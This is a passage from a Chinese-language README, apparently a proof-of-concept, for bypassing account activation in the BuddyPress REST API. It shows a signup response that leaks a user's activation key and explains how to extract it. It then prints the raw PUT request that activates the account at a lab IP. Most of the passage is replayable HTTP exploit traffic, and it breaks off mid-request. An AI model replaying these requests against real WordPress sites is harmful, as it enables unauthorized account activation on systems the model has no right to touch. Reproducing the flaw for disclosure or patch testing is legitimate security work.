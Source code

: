          Content-Length: 280
         Content-Type: application/json; charset=UTF-8
         [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
         ```
2. **提取激活密钥**
   - 发送请求后，服务器会返回一个响应包，其中包含 `activation_key`。
   ![1748229130073](image/readme/1748229130073.png)
   `activation_key` : `aoM0svmO72kVVPbNxYadAKifjIUuYqj8`
   - 提取 `activation_key`，用于后续的激活操作。

3. **构造激活请求**
   - 使用提取的 `activation_key` 构造 PUT 请求，发送到 `/wp-json/buddypress/v1/signup/activate/<activation_key>`。
   ![1748229140618](image/readme/1748229140618.png)
   - 请求体与注册请求相同。
   - 完整请求包：
        ```http
        PUT /wp-json/buddypress/v1/signup/activate/aoM0svmO72kVVPbNxYadAKifjIUuYqj8 HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8